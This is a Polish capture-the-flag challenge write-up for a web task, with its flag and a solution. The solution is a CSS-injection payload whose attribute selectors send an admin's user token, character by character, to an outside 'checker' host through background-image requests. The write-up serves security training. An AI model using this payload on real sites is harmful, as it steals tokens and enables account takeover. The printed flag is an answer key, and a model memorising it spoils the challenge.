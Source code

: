 # Komentarze

## Name
Komentarze

## URL
comments.scs.ctf

## Category
Web

## Points
50

## Flag
scs2019{b4cb1e0ae42ae1c16aa26e7ebf122a78e456c89f}

## Description
Odkryliśmy, że jeden z polityków pozwala w swoim systemie pozwala na dodawanie komentarzy. Okazało się jednak, że komuś udało się dostać na konto administratora i skasować dane. Sprawdź w jaki sposób mógł zdobyć dostęp. Nie wiadomo jak to zostało zrobione, ponieważ dodawanie komentarzy pozwala na dodawanie jedynie kilku tagów.

## Solution
Rozwiązaniem jest ustawienie tagu <style> i sprawdzanie litera po literze odpowiednim selectorem. 

### Przykład
Pierwszy komentarz:
```
<style>
#user-token[data-token^="a"]:before {background-image: url(http://checker/start/a);}
#user-token[data-token^="b"]:before {background-image: url(http://checker/start/b);}
#user-token[data-token^="c"]:before {background-image: url(http://checker/start/c);}
...
#user-token[data-token^="9"]:before {background-image: url(http://checker/start/9);}

#user-token[data-token$="a"]:after {background-image: url(http://checker/end/a);}
#user-token[data-token$="b"]:after {background-image: url(http://checker/end/b);}
#user-token[data-token$="c"]:after {background-image: url(http://checker/end/c);}
...
#user-token[data-token$="9"]:before {background-image: url(http://checker/end/9);}
</style>
```
Jeżeli znalazło literę "f" na początku i "c" na końcu drugi komentarz:
```
<style>
#user-token[data-token^="fa"]:before {background-image: url(http://checker/start/fa);}
#user-token[data-token^="fb"]:before {background-image: url(http://checker/start/fb);}
#user-token[data-token^="fc"]:before {background-image: url(http://checker/start/fc);}

#user-token[data-token^="f9"]:before {background-image: url(http://checker/start/f9);}

#user-token[data-token$="ac"]:after {background-image: url(http://checker/end/ac);}
#user-token[data-token$="bc"]:after {background-image: url(http://checker/end/bc);}
#user-token[data-token$="cc"]:after {background-image: url(http://checker/end/cc);}

#user-token[data-token$="9c"]:before {background-image: url(http://checker/end/9c);}
</style>
```

## Todo

## Created by
* Mateusz Górny